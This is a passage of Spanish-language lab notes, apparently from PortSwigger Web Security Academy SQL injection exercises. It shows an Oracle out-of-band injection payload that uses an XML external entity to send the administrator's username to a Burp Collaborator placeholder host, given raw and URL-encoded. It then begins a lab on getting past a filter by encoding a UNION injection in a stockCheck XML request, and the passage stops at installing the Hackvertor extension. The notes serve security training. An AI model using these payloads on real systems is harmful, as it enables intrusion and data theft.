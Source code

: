 ```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select username from users where username='administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Esto habria que URL Encodearlo, por lo que tendria que quedar algo tal que asi...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username%3d'administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

### Lab: SQL injection with filter bypass via XML encoding

Lo que tienes que hacer aqui es inyectar codigo SQL en algun campo de los que se muestra en la pagina de seleccion, por lo que con el BurpSuit capturamos la peticion estando a la escucha y dandole al boton `check stock`, una vez hecho esto estariamos viendo el `request`, por lo que el codigo que tendremos que inyectar sera en el siguiente campo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

Nuestro codigo lo inyectaremos en la seccion de `storeId` pero no lo podemos inyectar asi a pelo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 union select NULL-- -
	</storeId>
</stockCheck>
```

Info:

```
"Attack detected"
```

Por que no va a funcionar, por lo que utilizaremos una cosa especial que hay que instalar en BurpSuit que nos facilitara toda esta tarea de codificarlo...

En BurpSuit nos vamos a la seccion de `Extensiones` y en la casilla de `BAppStore` dentro de ahi buscamos la herramienta llamada `Hackvertor` y la instalamos...

